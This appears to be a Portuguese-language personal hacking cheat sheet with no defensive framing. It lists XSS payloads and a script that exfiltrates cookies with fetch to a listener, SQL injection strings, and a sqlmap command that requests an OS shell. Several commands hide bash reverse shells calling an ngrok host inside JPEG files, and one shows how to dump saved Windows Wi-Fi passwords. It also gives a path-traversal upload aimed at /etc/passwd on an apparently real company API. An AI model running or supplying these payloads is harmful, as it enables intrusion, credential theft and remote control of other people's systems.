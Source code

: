 # ANOTAÇÕES DE HACKING EM GERAL

### XSS

#### Paylod definitivo

```shell
"><svg/onload=confirm(1)>
```

#### Exfiltração de token e cookies por xss

```shell
python3 -m http.server 8000
<script>fetch('http://localhost:8000/' + document.cookie)</script>
```

### Links

[10K DE SENHAS MAIS COMUNS](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10k-most-common.txt)
[SHCHECK](https://github.com/santoru/shcheck)
[DORKS KING](https://dorkking.blindf.com/)
[ATTACK JWT TOKEN](https://github.com/ticarpi/jwt_tool)
[ATTACK JWT TOKEN](https://hub.docker.com/r/ticarpi/jwt_tool)
[PAYLOADS ALL THE THINGS](https://github.com/swisskyrepo/PayloadsAllTheThings)
[NOSQL](https://github.com/matrix/Burp-NoSQLiScanner)
[NOSQL](https://portswigger.net/web-security/nosql-injection)
[KEYHACKS VALIDAÇÃO DE API KEYS](https://github.com/streaak/keyhacks)
[RevShells](https://www.revshells.com/)
[Lista de assinaturas](https://en.wikipedia.org/wiki/List_of_file_signatures)
[Magic Bytes](https://medium.com/@d.harish008/what-is-a-magic-byte-and-how-to-exploit-1e286da1c198)
[NoSQLMap](https://github.com/codingo/NoSQLMap)
[NoSQLMap](https://medium.com/rangeforce/nosqlmap-a67d76b88c48)
[DeepSeek](https://github.com/deepseek-ai/DeepSeek-V3)
[NetExec](https://github.com/Pennyw0rth/NetExec)
[JShell](https://github.com/s0md3v/JShell)
[RegEx-DoS](https://github.com/jagracey/RegEx-DoS)

### CREATE XSS MALICIOUS JPG FILE

```shell
exiftool -Comment='<script>alert("XSS")</script>' pentester.jpg
```

### XSS BUTTON

```shell
<button onclick="alert('XSS')">Clique aqui</button>
```

### SQLMAP 

```shell
sqlmap -r request --tables --level 5 --risk 3 --random-agent --tamper=space2comment --os-shell
```

### CRIAR IMAGEM COM PAYLOAD XSS
##### Cria um arquivo de imagem JPEG com payload de xss em 

```shell
echo -e '\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x01\x00\x01\x00\x01\x00\x00' > imagem_xss.jpeg
echo -e '<script>alert("XSS")</script>' >> imagem_xss.jpeg
```

### CRIAR IMAGEM COM REVERSE SHELL
### Cria um arquivo de imagem JPEG com um payload de reverse shell em bash

```shell
(echo -e '\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x01\x00\x01\x00\x01\x00\x00'; echo -e '#!/bin/bash\nbash -i >& /dev/tcp/0.tcp.sa.ngrok.io/14498 0>&1') > imagem.jpeg
chmod +x imagem.jpeg
```

### SENHA WIRELESS (COMANDOS PARA WINDOWS)

```shell
netsh wlan show profile
netsh wlan show profile name=nomeRede key=clear
```

### SQL INJECTION

```shell
"
'
"'
" OR 1=1--
" OR 1=1#
" OR "1"="1
" OR "1"="1--
" OR "1"="1"--
" OR "1"="1#
" OR "1"="1"#
"+OR+1=1%23
"+OR+"1"="1
"+OR+"1"="1%23
"+OR+"1"="1"%23
"+OR+"1"="1%23
"+OR+"1"="1"%23
a")+OR+1=1%23
a")+OR+database()+like+'db_arch_m%'%23
a")+UNION+SELECT+*+FROM+usuarios+%23
a")ORDER+BY+158%23
a")+OR+cnes+like+'%%';%23
a")+OR+extractvalue(0x0a,version())%23
a")+UNION+(SELECT+1,1,1,1,1,1,version())%23
a") UNION (SELECT 1, version())#
a") UNION (SELECT 1, 1, version())#
a") UNION (SELECT 1, 1, 1, version())#
a") UNION (*)#
```

### CRIANDO REVERSE SHELL EM JAVASCRIPT EM UMA IMAGEM

```shell
echo "<script>require('child_process').exec('bash -i >& /dev/tcp/0.tcp.sa.ngrok.io/18515 0>&1');</script>" >> pentester_2.jpg
```

```powershell
Add-Content -Path "imagem.jpg" -Value "<script>require('child_process').exec('bash -i >& /dev/tcp/0.tcp.sa.ngrok.io/18515 0>&1');</script>"
```

```shell
exiftool -Comment="<script>require('child_process').exec('bash -i >& /dev/tcp/0.tcp.sa.ngrok.io/18515');</script>" imagem.jpg
```

### UPLOAD FILE COM CURL

```shell
curl -X POST https://api.seniornortepr.com.br/sicredi/purchase-request-attachments/e83aad95-9ded-4abc-b5b7-ccac2c456496 | -F "file=@../../../../../../../../../../../etc/passwd"
```